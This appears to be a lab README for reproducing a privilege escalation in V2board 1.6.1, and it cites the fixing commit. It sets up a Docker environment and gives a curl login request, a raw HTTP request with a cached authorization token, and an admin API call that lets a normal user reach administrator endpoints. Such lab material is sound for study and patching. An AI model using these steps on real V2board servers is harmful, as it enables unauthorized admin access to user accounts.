 # V2board 1.6.1 Privilege Escalation

[中文版本(Chinese version)](README.zh-cn.md)

V2board is a multiple proxy protocol manage panel application interface. In the version of 1.6.1, it is introduced a redis cache mechanism to save the user session.

Since there is no distinction between administrator and normal user in the cache layer, resulting in normal users being able to use their token to access the administrator interface.

References:

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## Vulnerable Environment

Execute following command to start the V2board 1.6.1:

```
docker-compose up -d
```

After the server is started, browse the `http://localhost:8080` to see the default login page of the V2board.

## Exploit

First of all, you have to register a normal user.

Then, replace the email and password with your own data and login:

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

The server will response a "auth_data" to you:

![](1.png)

Copy it and end the following request with your "auth_data":

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```

![](2.png)

This step is to let server save your authorization to Redis cache.

Finally, you are able to simply call all admin API with this authorization, for example `http://your-ip:8080/api/v1/admin/user/fetch`:

![](3.png)
